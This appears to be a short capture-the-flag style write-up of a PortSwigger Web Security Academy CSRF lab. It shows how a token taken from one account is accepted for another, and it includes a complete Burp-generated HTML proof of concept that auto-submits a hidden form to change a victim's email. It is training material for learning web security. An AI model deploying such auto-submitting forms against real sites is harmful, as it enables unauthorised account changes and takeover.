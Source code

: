![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/2b89c966-1510-4ecc-b548-559a23fcae0b)

### Solution

updated the email after loggin in using credentials

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/6c37e27c-0f2f-42a6-a72f-232b42f0721f)

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/806dc9f2-bf40-4318-8014-573959696676)

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/7e7aba4d-ac1e-418c-9bcc-08d19647a41a)

now open an incognito tab and login as carlos and update the email address

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/f0588312-91d2-464f-a852-6b8c55c5f647)

we took note of the csrf token.

now replace this token in the other account and we can see that it is accepted.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/700f2d5d-e071-4acf-b2e7-cb7bc5b71da6)

generate a csrf poc

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/82da0487-606d-49a4-a3bc-49ef662637bb)

payload

```js
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a6100a703f79ccb801ee4a9004a000e.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="rahul&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="e6t6B2GiyQ35fYhwr6t2Hn1WSjdU0hHV" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/1bc6d09f-36df-415f-acbd-fec3001b6307)

click deliver to solve the lab

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/78b242dc-88af-408c-83d1-9367920dd071)
